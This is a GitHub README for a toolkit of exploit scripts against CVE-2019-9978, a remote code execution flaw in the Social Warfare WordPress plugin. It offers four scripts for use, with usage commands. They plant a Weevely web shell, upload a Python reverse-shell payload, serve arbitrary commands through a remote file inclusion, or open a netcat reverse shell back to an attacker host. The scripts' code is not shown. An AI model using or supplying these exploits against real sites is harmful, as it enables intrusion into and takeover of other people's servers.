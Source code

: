 # CVE-2019-9978
## RCE in Social Warfare Plugin ( <=3.5.2 )  
## Exploit Scripts
Scripts written with the help of Rin <3.  
Her Github: https://github.com/Scooter480

### social-warfare-weeve.py (PTY/Weevely/can upgrade)
Makes use of weevely to generate a weevely payload, upload to the target, and then automatically connects to it.
#### Usage
```bash
python3 social-warfare-weeve.py http://example.com/wordpress/ lhost
```

### social-warfare-pty.py (PTY/Python Payload/can't upgrade)
Generates a python payload that is then uploaded to the targeted and uses weevely to execute it, establishing a reverse shell connection back.
#### Usage
```bash
python3 social-warfare-pty.py http://example.com/wordpress/ lhost
```

### social-warfare-rce.py (old non-TTY/can't upgrade)
Setups an http server and serves as an interface to execute arbitrary commands via payload.txt and RFI/RCE vuln.  
#### Usage
```bash
python3 social-warefare-rce.py http://example.com/wordpress/ lhost
```

### social-warfare-rev.py (Basic non-TTY rev shell/can upgrade to TTY)
Executes a reverse shell payload and spawns a netcat listener to catch the shell.
#### Usage
```bash
python3 social-warefare-rev.py http://example.com/wordpress/ lhost lport
```
